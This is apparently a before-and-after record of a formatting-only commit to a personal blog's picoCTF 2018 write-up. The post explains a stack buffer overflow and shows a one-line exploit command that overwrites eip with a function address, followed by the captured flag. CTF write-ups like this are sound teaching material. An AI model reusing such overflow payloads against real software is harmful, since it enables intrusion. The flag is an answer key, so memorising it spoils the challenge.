

Before and after one commit to drtychai/drtychai.github.io, a Jekyll site: the page built from _posts/picoCTF-2018/2018-10-13-picoCTF.md, in a window 1280 px wide and 900 px high, scrolled down 1581 px. Shown: the whole window, without its empty margins (208-1068 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed lines change nothing that is shown.

Commit message:
updated formatting

````diff
--- a/_posts/picoCTF-2018/2018-10-13-picoCTF.md
+++ b/_posts/picoCTF-2018/2018-10-13-picoCTF.md
@@ -63,10 +63,12 @@ From a cursory glance at the source code, we see the binary take a single comman
 Using `pattern_create.rb` and `pattern_offset.rb` we find the offset of `eip` is 28 characters. In gdb:
 `run $(\`locate pattern_create\` -l 50)`
 
-This displays the crash and tells us that `eip` is trying to find the address of `a9Ab`. Using `\/`locate pattern_offset.rb\` -q a9Ab` we know now that any input after 28 characters will overwrite `eip`. Thus, we can disasemble the function `sigsegv_handler` and overwrite `eip` with it's address.
+This displays the crash and tells us that `eip` is trying to find the address of `a9Ab`. Using `    `locate pattern_offset.rb` -q a9Ab    ` we know now that any input after 28 characters will overwrite `eip`. Thus, we can disasemble the function `sigsegv_handler` and overwrite `eip` with it's address.
 
-```./vuln $(python -c 'print "A"*28 + "\x2b\x86\x04\x08"')
-picoCTF{ov3rfl0ws_ar3nt_that_bad_b49d36d2}```
+```
+./vuln $(python -c 'print "A"*28 + "\x2b\x86\x04\x08"')
+picoCTF{ov3rfl0ws_ar3nt_that_bad_b49d36d2}
+```
 
 # Buffer Overflow 1
 Similar to the previous challenge, we are give a binary and it's source code.
````
